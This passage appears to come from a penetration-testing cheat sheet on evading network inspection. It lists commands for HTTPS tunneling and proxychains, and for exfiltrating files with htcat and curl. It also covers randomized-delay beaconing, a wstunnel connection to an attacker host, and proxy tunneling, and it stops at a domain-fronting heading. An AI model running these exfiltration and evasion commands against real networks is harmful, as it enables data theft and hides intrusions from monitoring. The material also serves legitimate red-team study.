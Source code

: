 #### HTTP/HTTPS Traffic Obfuscation
HTTPS traffic is encrypted, making it more difficult for network security tools to inspect. Route traffic through multiple proxies to obfuscate network connections. By routing traffic through proxies, it becomes much more difficult for monitoring systems to track the origin.

- **`stunnel` HTTPS Tunneling:**
	```bash
	stunnel /etc/stunnel/stunnel.conf
	```
- **`htcat` HTTP Data Exfiltration:**
	```bash
	htcat http://target.com/upload -m PUT -d /path/to/exfiltrate.file
	```
- **Send HTTP Requests with Random Delays:**
	```bash
	while true; do curl -A "Mozilla/5.0" http://target.com; sleep $((RANDOM % 10)); done
	```
- **Use `burpsuite` to Modify and Obfuscate Web Traffic:**
	- Proxy your traffic through Burp Suite and use its features to modify HTTP requests, add random headers, and obfuscate content.
- **Proxychains:**
	```bash
	proxychains <command>
	```
  - **`curl` HTTPS Data Exfiltration:**
```bash
curl --data "<data>" https://<target_server>
```

#### WebSocket Tunneling
Use WebSocket connections to bypass firewalls and network filters. WebSockets often bypass traditional inspection methods as they are bidirectional and use a persistent connection over standard ports (80/443).

- **WebSocket Tunnelling with `wstunnel`:**
	```bash
	wstunnel -r <target_ip>:<target_port> ws://<attacker_ip>:<attacker_port>
	```

#### Web Proxy
Leverage web proxies (HTTP/HTTPS) to tunnel traffic and avoid firewall inspection. Bypasses firewall restrictions that may be blocking certain network traffic.
- **`export` Web Proxying:**
	```bash
	export http_proxy=http://<proxy_ip>:<proxy_port>
	```
- **`proxytunnel` HTTP Web Proxy Tunneling:**
	```bash
	proxytunnel -p proxy.example.com:8080 -d target.example.com:22 -a 2222
	```

#### HTTP Obfuscation via Domain Fronting
